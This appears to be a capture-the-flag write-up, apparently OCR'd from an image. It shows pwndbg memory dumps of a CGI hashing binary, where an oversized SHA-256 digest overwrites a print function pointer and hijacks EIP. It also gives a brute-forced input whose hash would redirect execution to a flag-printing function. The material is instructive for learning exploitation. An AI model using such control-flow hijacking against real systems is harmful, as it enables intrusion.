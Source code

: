 ```
0x900e180:	0x9b84756f	0x08049f50	0x00000000	0x00010011
0x900e190:	0x75706e69	0x00310074	0x68736168	0x35646d00
0x900e1a0:	0x00000000	0x00000000	0x00000000	0x00000000
pwndbg> i r esi
esi            0x900e160	151052640
0x804a5e6 <print_hash+38>    call   dword ptr [esi + 0x24] <0x8049f50>

pwndbg> x/i 0x8049f50
   0x8049f50 <print_md5>:	push   ebp
```
```
result in shell
Content-type: text/plain
c4ca4238a0b923820dcc509a6f75849b
```

So, hash chunk(v3)'s struct will be:

```
v3[0] = &input in request
v3[2] = &string for hash type1(md5, sha1, sha256, sha512)        ;default: md5           ;overwritable
v3[3] = &string for hash type2(b64, base64)                      ;default: hex
v3[4] = hash function(evp)                           ;set by set_hash_and_printer()
v3[5] = hash data
v3[9] = print function pointer(print_md5, print_sha1, ...)
```

After some tries, I found if I used `sha256`, binary dead. Oh, there is overflow when using `sha256` in hash. Because `sha256` have 64 hash length, it overwrite v3[9] which is print function pointer.

```
pwndbg> x/20wx 0x9c53160
0x9c53160:	0x09c53196	0x00000001	0x09c5319d	0x0804c0d6
0x9c53170:	0xf7f70e00	0x00000000	0x00000000	0x00000000
0x9c53180:	0x00000000	0x0804a0d0	0x00000000	0x00010011
0x9c53190:	0x75706e69	0x00310074	0x68736168	0x61687300


pwndbg> x/20wx 0x9c53160
0x9c53160:	0x09c53196	0x00000001	0x09c5319d	0x0804c0d6
0x9c53170:	0xf7f70e00	0x73b2866b	0xe1fc34ff	0x4e806b9d
0x9c53180:	0x573f5aff	0xeaa4ad47	0x491d2fa2	0xdd521ec0
0x9c53190:	0x4b5b87b7	0x00310074	0x68736168	0x61687300

Program received signal SIGSEGV (fault address 0xeaa4ad47)
pwndbg> i r eip
eip            0xeaa4ad47	0xeaa4ad47
```

So, how to use it? I have to find magic hash that hash[16:20] will be `&print_flag`. Yes, It takes a very long times. In ma case, I spent 1 hours for getting magic hash.

I get the input `fb18592c3edca00d1c7a61124166dfe7ed2d1a840b570c55efb7a897ea25870f` which is generate sha256 `2af06d3ae24ae97a0067182f4a50b136d0ab0408b5214820909021e77aabb5ee`.
